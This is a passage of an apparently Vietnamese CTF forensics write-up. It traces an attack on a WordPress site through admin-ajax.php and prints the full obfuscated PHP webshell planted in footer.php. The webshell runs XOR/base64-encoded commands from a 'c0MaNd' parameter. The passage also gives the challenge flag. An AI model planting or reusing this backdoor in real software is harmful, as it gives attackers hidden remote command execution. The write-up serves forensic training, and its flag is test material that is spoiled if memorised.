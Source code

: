 Kẻ tấn công đã gửi đến ```wp-admin/admin-ajax.php``` rất nhiều request

![image](/assets/data/bdsec11.png)

Trong số đó có gói tin chứa payload RCE rất đáng ngờ

![image](/assets/data/bdsec12.png)

Đoạn code này là webshell ```obfuscated``` được nhúng vào file PHP của WordPress (footer.php), cụ thể là một backdoor sử dụng XOR và base64, cho phép attacker thực thi lệnh tùy ý thông qua tham số ```c0MaNd```

```php
<?php
goto x6kM1;

T1F5b:
if (isset($_REQUEST["c0MaNd"]) && !empty($_REQUEST["c0MaNd"])) {
    $key += 1337 % 256;
    $encrypted = base64_decode($_REQUEST["c0MaNd"]);
    $decrypted = xor_cipher($encrypted, $key);
    ob_start();
    system($decrypted);
    $output = ob_get_clean();
    $encrypted_output = xor_cipher($output, $key);
    echo base64_encode($encrypted_output);
}
goto LYWUx;

x6kM1:
function xor_cipher($data, $key) {
    $out = '';
    for ($i = 0; $i < strlen($data); $i++) {
        $out .= $data[$i] ^ chr($key);
    }
    return $out;
}
goto T1F5b;

LYWUx:
?>

```

```
flag: BDSEC{1337_c0MaNd}
```

## User Name
>What is the normal user account name?<br>
file-6.pcapng<br>
Flag Format: BDSEC{name}




